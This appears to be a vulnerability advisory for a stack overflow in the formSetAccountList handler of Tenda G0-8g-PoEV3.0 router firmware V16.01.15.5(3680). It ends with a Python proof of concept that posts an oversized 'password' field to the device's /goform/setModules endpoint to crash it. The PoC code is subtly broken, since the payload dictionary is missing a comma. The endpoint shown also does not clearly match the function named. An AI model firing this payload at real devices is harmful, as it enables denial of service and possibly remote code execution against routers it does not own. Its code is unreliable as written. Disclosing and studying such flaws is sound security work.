

# Tenda G0-8g-PoEV3.0 formSetAccountList
### Overview
vendor: Tenda

product: G0-8g-PoEV3.0

version: V16.01.15.5(3680) and before

type: Stack Overflow
### Vulnerability Description
Tenda G0-8g-PoEV3.0 V16.01.15.5(3680) were discovered to contain a stack overflow in the formSetAccountList function. Devices allows remote attackers to cause a denial of service via a crafted parameter for the http post request.
### Vulnerability details
In function formSetAccountList line 30、34, it reads in a user-provided parameter `password`, and the variable `String` is passed to the `SimpleEncryptToBase64` function without any length check, which may overflow the stack-based buffer `v17`. As a result, by requesting the page, an attacker can easily execute a denial of service attack or remote code execution.



### POC
```python
import requests
ip = '192.168.0.1'
url = f'http://{ip}/goform/setModules'
payload = {
    "userType": "admin"
    "password": 'a' * 1000
}

res = requests.post(url=url, data=payload)
print(res.content)
```
